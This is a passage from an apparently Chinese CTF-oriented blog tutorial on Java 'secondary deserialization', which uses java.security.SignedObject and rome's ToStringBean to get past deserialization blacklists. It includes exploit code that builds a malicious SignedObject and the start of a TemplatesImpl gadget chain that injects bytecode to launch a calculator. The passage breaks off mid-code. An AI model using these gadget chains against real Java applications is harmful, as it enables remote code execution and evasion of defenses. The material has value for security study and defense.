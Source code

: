 ### [前言](https://tttang.com/archive/1701/#toc_)

不记得是哪一场比赛了，遇到了一个 Java 的题目，过滤了很多关键类，不管茯苓把 CC 链如何拆开组合，都没有办法绕过。

就在此时，大佬看了一眼说，用二次反序列化就可以绕过了。“二次反序列化”这六个字重重地敲在了我的心巴上，从那以后我就对二次反序列化产生了莫名的渴望。

茯苓开始详细学习时，发现没有二次反序列化比较系统的学习文章，那么，就自己总结一个。

简单介绍下二次反序列化，顾名思义，就是反序列化两次，其主要意义是**绕过黑名单的限制或不出网利用**

PS：本文用到的工具类会放在文末

### [SignedObject](https://tttang.com/archive/1701/#toc_signedobject)

#### [原理](https://tttang.com/archive/1701/#toc__1)

它，是`java.security`下一个用于创建真实运行时对象的类，更具体地说，`SignedObject`包含另一个`Serializable`对象。

太完美了，这个类简直是为二次反序列化而存在的，来关注下它的`getObject()`

[![image-20220809181727529.png](https://storage.tttang.com/media/attachment/2022/08/10/52c04b8f-766c-40d4-add4-fb5795464214.png)](https://storage.tttang.com/media/attachment/2022/08/10/52c04b8f-766c-40d4-add4-fb5795464214.png)

反序列化的内容也是可控

[![image-20220809182131901.png](https://storage.tttang.com/media/attachment/2022/08/10/803065c6-c0e1-4653-89eb-a37344acbe58.png)](https://storage.tttang.com/media/attachment/2022/08/10/803065c6-c0e1-4653-89eb-a37344acbe58.png)

那么茯苓思路瞬间清晰了，先构造一个恶意`SignedObject`

```
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化, kp.getPrivate(), Signature.getInstance("DSA"));
```

然后调用它的`getObject()`方法即可，那么现在压力来到了如何调用这个方法这边

#### [rome](https://tttang.com/archive/1701/#toc_rome)

##### [ToStringBean](https://tttang.com/archive/1701/#toc_tostringbean)

提到调用 getter 方法，茯苓第一个想到的就是 rome 反序列化，众所周知，rome 的`ToStringBean`的`toString()`方法可以办到这件事，理论上是可行的，实际也是可以构造的

因为`ObjectBean`其在实例化时会实例化三个 bean，这样构造出来的内容过分长了，茯苓不喜欢

~~大家可以自行构造试试~~，茯苓绝不是那种不负责的人，还是给出例子，但不进行具体分析

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import static util.Tool.*;

public class R_test {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                payload("mate-calc").toBytecode()});
        setFieldValue(obj, "_name", "Poria");
```